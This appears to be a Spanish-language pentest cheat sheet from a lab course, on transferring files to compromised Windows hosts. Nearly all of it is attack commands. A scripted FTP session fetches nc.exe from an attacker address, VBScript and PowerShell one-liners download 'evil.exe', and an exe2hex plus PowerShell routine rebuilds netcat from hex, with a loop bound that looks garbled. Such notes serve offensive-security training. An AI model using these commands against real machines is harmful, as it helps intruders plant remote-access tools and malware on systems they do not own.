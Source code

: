 ### Pure-FTPd
```
sudo apt update && sudo apt install pure-ftpd
sudo systemctl restart pure-ftpd
```

### Transferencia de archivos con hosts de Windows
```
echo open 10.11.0.4 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

### Visual Basic get
```
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

### PowerShell
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

### Descargas de Windows con exe2hex y PowerShell
```
REDUCIR PESO
upx -9 nc.exe

CONVERTIR EN HEX
exe2hex -x nc.exe -p nc.cmd

RECONSTRUIR NC.EXE
powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"
```


